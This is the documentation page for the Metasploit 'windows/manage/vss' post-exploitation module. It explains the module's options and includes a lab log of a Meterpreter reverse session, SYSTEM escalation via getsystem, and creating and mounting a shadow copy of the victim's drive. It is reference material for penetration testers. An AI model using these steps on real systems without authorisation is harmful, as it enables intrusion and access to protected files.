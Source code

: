 ## Overview
This module will perform management actions for Volume Shadow Copies on the system. This is based on the VSSOwn Script
originally posted by Tim Tomes and Mark Baggett. The session must be running with Administrative privileges and outside
of UAC.

## Options

### DEVICE

*Only applicable with the VSS_MOUNT action.*

DeviceObject of the shadow copy to mount. This should begin with `\\?\GLOBALROOT\Device` and **must end with a slash (`\`)**.

### PATH

*Only applicable with the VSS_MOUNT and VSS_UNMOUNT actions.*

Path to use for mounting the shadow copy.

### SIZE

*Only applicable with the VSS_SET_MAX_STORAGE_SIZE action.*

Size in bytes to set for max storage.

### VOLUME

*Only applicable with the VSS_CREATE action.*

Volume to make a copy of.

## Scenarios

### Create And Access A Shadow Copy

First, ensure the session is running with elevated privileges and that UAC is not restricting it.

```
msf6 post(windows/manage/vss) > 
[*] Sending stage (200262 bytes) to 192.168.159.30
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.30:62600) at 2021-01-04 12:09:59 -0500

msf6 post(windows/manage/vss) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > getuid
Server username: DESKTOP-RTCRBEV\Spencer McIntyre
meterpreter > sysinfo 
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > background 
[*] Backgrounding session 2...
```

Next, use the VSS module to the the storage information and then create a shadow copy of the `C:` drive (the default
value).

```
msf6 post(windows/manage/vss) > vss_get_info 

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service not running. Starting it now...
[+] Software Shadow Copy started successfully.
[+] Shadow Copy Storage Data
========================

  Field           Value
  -----           -----
  AllocatedSpace  
  MaxSpace        
  UsedSpace       

[*] Post module execution completed
msf6 post(windows/manage/vss) > set ACTION VSS_CREATE 
ACTION => VSS_CREATE
msf6 post(windows/manage/vss) > run

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] ShadowCopy created successfully
[+] Shadow Copy "{A38B3122-4D7A-4B93-B31B-D1454C2FED4D}" created!
[*] Post module execution completed
msf6 post(windows/manage/vss) >
```

After creating the shadow copy, list the copies to get the `DeviceObject` path and mount it.

```
msf6 post(windows/manage/vss) > vss_list_copies 

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Getting data for Shadow Copy {A38B3122-4D7A-4B93-B31B-D1454C2FED4D} (This may take a minute)
[+] Shadow Copy Data
================

  Field                Value
  -----                -----
  ClientAccessible     TRUE
  Count                1
  DeviceObject         \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
  Differential         TRUE
  ExposedLocally       FALSE
  ExposedName          
  ExposedRemotely      FALSE
  HardwareAssisted     FALSE
  ID                   "{A38B3122-4D7A-4B93-B31B-D1454C2FED4D}"
  Imported             FALSE
  NoAutoRelease        TRUE
  NoWriters            TRUE
  NotSurfaced          NotSurfacedFALSE
  OriginiatingMachine  DESKTOP-RTCRBEV
  Persistent           TRUE
  Plex                 FALSE
  ProviderID           {B5946137-7B9F-4925-AF80-51ABD60B20D5}
  ServiceMachine       DESKTOP-RTCRBEV
  SetID                {F608494B-C0DB-4462-81B0-12D06A2DD3EB}
  State                12
  Transportable        FALSE
  VolumeName           \\?\Volume{a5e97ffa-0120-4d03-ad47-18a94e9bfb2b}\

[*] Post module execution completed
msf6 post(windows/manage/vss) > set ACTION VSS_MOUNT 
ACTION => VSS_MOUNT
msf6 post(windows/manage/vss) > set DEVICE \\\\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\
DEVICE => \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
msf6 post(windows/manage/vss) > run

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Creating the symlink...
[+] Mounted successfully
[*] Post module execution completed
msf6 post(windows/manage/vss) >
```

Finally, interact with the session to access the mounted directory before unmounting it.

```
msf6 post(windows/manage/vss) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > dir ShadowCopy 
Listing: ShadowCopy
===================

Mode              Size        Type  Last modified              Name
----              ----        ----  -------------              ----
40777/rwxrwxrwx   0           dir   2019-03-19 00:52:43 -0400  $Recycle.Bin
40777/rwxrwxrwx   0           dir   2020-03-31 17:40:05 -0400  Documents and Settings
40777/rwxrwxrwx   0           dir   2019-03-19 00:52:43 -0400  PerfLogs
40555/r-xr-xr-x   4096        dir   2019-03-19 00:52:43 -0400  Program Files
40555/r-xr-xr-x   4096        dir   2019-03-19 00:52:44 -0400  Program Files (x86)
40777/rwxrwxrwx   0           dir   2019-03-19 00:52:44 -0400  ProgramData
40777/rwxrwxrwx   0           dir   2020-03-31 20:39:26 -0400  Recovery
40777/rwxrwxrwx   4096        dir   2020-03-31 20:38:24 -0400  System Volume Information
40555/r-xr-xr-x   4096        dir   2019-03-19 00:37:22 -0400  Users
40777/rwxrwxrwx   16384       dir   2019-03-19 00:37:22 -0400  Windows
100666/rw-rw-rw-  1476395008  fil   2020-03-31 20:38:25 -0400  pagefile.sys
100666/rw-rw-rw-  16777216    fil   2020-03-31 20:38:25 -0400  swapfile.sys

meterpreter > background 
[*] Backgrounding session 2...
msf6 post(windows/manage/vss) > vss_unmount 

[*] Volume Shadow Copy service is running.
[*] Software Shadow Copy service is running.
[*] Deleting the symlink...
[*] Post module execution completed
msf6 post(windows/manage/vss) >
```
